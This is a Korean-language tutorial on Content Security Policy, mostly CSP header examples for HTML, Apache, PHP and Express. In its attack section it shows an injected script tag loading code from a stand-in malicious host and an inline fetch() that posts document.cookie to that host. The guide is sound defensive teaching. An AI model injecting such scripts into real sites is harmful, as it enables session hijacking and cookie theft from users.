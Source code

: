 ## 📌 **Content Security Policy (CSP)**

### 개요

\*\*Content Security Policy (CSP)\*\*는 웹 애플리케이션에서 **크로스 사이트 스크립팅(XSS)** 및 **데이터 삽입 공격**을 방어하기 위한 **보안 메커니즘**입니다. CSP는 **브라우저**가 **허용된 리소스**만 로드하도록 지시하는 정책을 설정하여, **악성 코드**나 **스크립트**가 외부 출처에서 실행되는 것을 방지합니다.

### 공격 방식

웹 애플리케이션에 **CSP**가 없거나 적절하게 설정되지 않으면, 악성 사용자가 **XSS 공격**을 통해 **스크립트**를 삽입하거나 **외부 자원을** 로드할 수 있습니다. 공격자는 이를 통해 세션 하이재킹, 데이터 탈취, 서버 제어 등 다양한 공격을 수행할 수 있습니다.

#### 예시 공격

1. 악성 사용자가 댓글을 작성하거나, **폼 입력 필드**에 **JavaScript 코드**를 삽입할 수 있습니다.

   ```html
   <script src="http://malicious.com/malicious.js"></script>
   ```

   이 코드가 **허용된 웹 페이지에 삽입되면**, 외부 스크립트가 실행됩니다.

2. **XSS 공격**을 통해 사용자의 **세션 쿠키**를 탈취할 수도 있습니다.

   ```javascript
   <script>
       fetch('http://malicious.com/steal-cookies', {
           method: 'POST',
           body: document.cookie
       });
   </script>
   ```

### 🛡️ 방어법

#### 1. **CSP 적용**

* **CSP 헤더**를 사용하여 **허용된 출처**에서만 자원을 로드할 수 있게 제한합니다. 이를 통해 **외부 악성 스크립트**의 실행을 방지할 수 있습니다.

#### 예시: 기본적인 CSP 헤더

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com; img-src 'self';
```

이 정책은 다음을 의미합니다:

* **default-src 'self'**: 기본적으로 모든 리소스는 **현재 도메인**에서만 로드 가능합니다.
* **script-src 'self' [https://trusted.com](https://trusted.com)**: 스크립트는 **현재 도메인**과 \*\*[https://trusted.com\*\*에서만](https://trusted.com**에서만) 로드 가능합니다.
* **img-src 'self'**: 이미지는 **현재 도메인**에서만 로드 가능합니다.

#### 2. **인라인 스크립트 차단**

* CSP를 통해 **인라인 자바스크립트**(`<script>`)의 실행을 차단할 수 있습니다. 이렇게 하면 **XSS 공격**이 포함된 인라인 스크립트가 실행되지 않게 됩니다.

```http
Content-Security-Policy: script-src 'self' 'nonce-randomvalue';
```

* **nonce**는 실행되는 스크립트에 대한 **임시 허가 값**입니다. 이를 사용하면 특정 스크립트만 실행할 수 있습니다.

#### 3. **서버에서 CSP 헤더 설정**

웹 서버에서 **CSP** 헤더를 설정하여 **응답 헤더에 포함**시킬 수 있습니다. 예를 들어, **Apache** 서버에서는 `.htaccess` 파일을 수정하여 CSP를 설정할 수 있습니다.

**Apache 예시**:

```apache
Header set Content-Security-Policy "default-src 'self'; script-src 'self' https://trusted.com;"
```

#### 4. **`report-uri` 또는 `report-to` 사용**

CSP 위반 사항을 추적하고, 위반 시 서버에 보고할 수 있습니다. 이를 통해 **CSP 위반**을 실시간으로 감지하고, 보안 문제를 모니터링할 수 있습니다.

예시:

```http
Content-Security-Policy: default-src 'self'; report-uri /csp-violation-report-endpoint;
```

이 경우, 위반이 발생하면 `/csp-violation-report-endpoint`에 관련 정보를 전송하게 됩니다.

#### 5. **스크립트, 스타일, 이미지 및 리소스의 특정 출처만 허용**

* CSP를 사용하여 **스크립트**, **스타일**, **이미지** 등 각 리소스 유형에 대해 세부적으로 **출처를 제한**할 수 있습니다.
* **스크립트**는 **자바스크립트 파일**의 **출처**를, **이미지**는 **이미지 URL**의 **출처**를 제한할 수 있습니다.

예시:

```http
Content-Security-Policy: script-src 'self' https://trusted.com; img-src 'self' https://images.example.com;
```

#### 6. **`strict-dynamic`**

* \*\*`strict-dynamic`\*\*은 `CSP`에서 스크립트 로드와 관련된 **동적 로딩**을 더욱 엄격하게 제한하는 기능입니다.
* `strict-dynamic`을 사용하면, **신뢰할 수 있는 스크립트만**이 **동적으로 로드**될 수 있습니다. 즉, **스크립트 태그**나 **동적 로드**가 **서버에서 정의한 신뢰된 소스**에서만 이루어지게 됩니다.

동작 원리
* `strict-dynamic`을 사용하면, **`script-src`** 지시어에 **출처**(예: `'self'`, `'unsafe-inline'`)를 설정해도, 그 출처에서 **로드된 스크립트만**이 **다시 다른 스크립트를 로드**할 수 있게 됩니다.
* **예시**로, 서버에서 신뢰된 스크립트를 로드한 후에는, 그 스크립트가 추가적인 스크립트를 로드하는 것이 허용됩니다. 하지만 **그 외의 스크립트**는 전혀 로드되지 않습니다.

예시:

```http
Content-Security-Policy: script-src 'self' 'strict-dynamic'; object-src 'none';
```

* `script-src`에서 정의된 **신뢰된 출처**에서만 스크립트가 로드될 수 있습니다.
* 로드된 스크립트가 추가적인 스크립트를 동적으로 로드할 수 있지만, 그 외의 **외부 스크립트**는 **차단**됩니다.
* `strict-dynamic`은 \*\*`nonce`\*\*와 결합될 때 가장 효과적입니다. `nonce`를 사용하여 특정 스크립트만 실행하도록 하고, `strict-dynamic`을 사용하여 그 스크립트가 **다른 스크립트를 로드**할 수 있도록 제한합니다.


---

### 적용 예시

#### **HTML 페이지의 헤더에 CSP 설정**

```html
<head>
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted.com; img-src 'self';">
</head>
```

#### **PHP에서 CSP 헤더 설정**

```php
header("Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com;");
```

#### **Node.js (Express)에서 CSP 헤더 설정**

```javascript
app.use(function(req, res, next) {
  res.setHeader("Content-Security-Policy", "default-src 'self'; script-src 'self' https://trusted.com;");
  next();
});
```

---

### **결론**

* \*\*CSP(Content Security Policy)\*\*는 웹 애플리케이션의 **보안을 강화**하고, \*\*크로스 사이트 스크립팅(XSS)\*\*과 **데이터 삽입 공격**을 방어하는 중요한 **보안 기능**입니다.
* **CSP 헤더**를 통해 **허용된 출처**에서만 자원을 로드하게 하여 **악성 스크립트**의 실행을 방지합니다.
* **CSP 설정**은 다양한 방법으로 적용할 수 있으며, **정확한 리소스 출처**를 지정하고, **인라인 스크립트 실행**을 제한하는 방식으로 효과적인 방어가 가능합니다.
